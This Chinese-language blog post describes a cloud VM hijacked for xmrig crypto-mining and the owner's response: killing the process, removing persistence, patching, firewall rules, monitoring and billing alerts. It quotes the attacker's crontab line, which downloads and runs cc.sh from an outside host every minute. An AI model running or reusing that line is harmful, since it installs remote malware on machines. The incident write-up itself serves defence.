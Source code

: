 ```yaml
---
layout: default
author: liuning0820
tags: [cloud]
comments: true
---
```


# 云安全的重要性：记录一次云主机被挖矿攻防

最近发现我的一台Azure VM 超出150美元的月度限额导致VM 直接关机。

通过Azure Monitor 上 可以看出一段时间内CPU，Network Out Total 严重异常，出口流量暴增，CPU 近100%。

![]({{ site.url }}{{site.baseurl}}/images/2021-02-27-10-21-05.png)

重新开机并立即关闭80，443 端口，并限定了22 端口仅限本机访问， 然后SSH上去开始尝试寻找问题原因。

1. 首先通过 **htop** 检查导致高CPU的进程,发现名为**xmrig**的进程导致100%

2. 检查crontab 查看是否有自启动的job，果然发现有，杀掉进程后并删除crontab job。

```sh
*/1 * * * * cd /tmp/node-v10.15.3-linux-x64/bin;rm -rf cc.sh;
wget http://8306.org/cc.sh;chmod 777 cc.sh;bash cc.sh /dev/null 2>&1

```

## 如果从SRE角度去主动侦测

上述的步骤是事后诸葛亮， 是被动的应对，决定尝试一下主动侦测并提前响应，以免像我一样早上上面的损失。

- 升级系统补丁

可以选择定时任务去执行下面的命令也可以在配置云主机的时候设置自动升级补丁包

```sh
sudo apt upgrade && sudo apt update
```

- 设置安全组和Inbound/Outbound 规则

- 通过监控工具主动发现异常

![]({{ site.url }}{{site.baseurl}}/images/2021-02-27-10-42-45.png)

从这里可以看到这个**xmrig**的进程通过13333这个端口从我的 Azure VM 跟目标机器 101.32.200.219 这台机器进行通信。

通过IP 我们可以定位出目标IP 对应的ISP 是腾讯云上的一台云主机。

![]({{ site.url }}{{site.baseurl}}/images/2021-02-27-10-46-59.png)

到这一步，我在想，是不是我们遇到重大损失的时候就可以报案并联系IPS运营商去协助从源头上解决问题。

当然，对于小损失，像我这样的，我们可以吃一堑长一智，至少可以把对方的IP 加到inbound/outbound blocklist里。

![]({{ site.url }}{{site.baseurl}}/images/2021-02-27-10-52-22.png)

- 设置Alert 主动通知和干预

因为此次攻击主要是利用云主机资源用来挖矿，对我的账单影响比较大的地方是出口流量费用。为了避免损失，我结合Azure 的Metrics 设置了
Alert。

![]({{ site.url }}{{site.baseurl}}/images/2021-02-27-10-55-41.png)

一旦发现一段时间内的流量异常，就通过邮件发送通知，并自动执行任务暂时关闭主机，阻止近一步的损失。

## 还有什么可以做的？

欢迎大家留言，提出保障云主机安全的见解和建议。
